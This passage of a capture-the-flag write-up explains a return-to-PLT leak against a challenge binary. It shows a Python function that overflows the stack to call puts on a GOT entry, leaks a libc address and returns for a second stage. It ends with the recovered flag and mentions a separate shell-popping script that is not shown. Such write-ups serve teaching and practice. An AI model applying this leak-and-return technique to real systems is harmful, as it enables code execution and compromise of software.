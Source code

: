 Let's look at the payload for leaking the GOT address

```python
def get_got_address(stream, got):
    payload = b""
    payload += p32(e.plt["puts"]) # Call puts
    payload += p32(POP_RET) # Fix stack
    payload += p32(e.got[got]) # argument to puts
    payload += p32(e.symbols["build"]) # When done, return to build
    trigger_overflow(stream, payload)
    leaked_address = u32(stream.recvline()[:4]) # We only care about the first 4 bytes
    return leaked_address
```

We overwrite the return pointer with the address of `puts` in the PLT, which is a static location. We pass the address of the GOT symbol we want to look up as an argument. That will cause puts to output the address of the libc `puts` to STDOUT (along with some other garbage probably, but we don't care about that). After `puts` completes, it returns into a `pop; ret;` to pop the argument to `puts` of the stack and return back into the build function, so we can repeat the exploit.

## Flag

The full exploit script is available in `almost.py`. When run it will pop a shell and hand over control, letting us cat flags to our hearts content

```
> cat flat.txt
flag{my_code_was_almost_secure}
```

_Fin._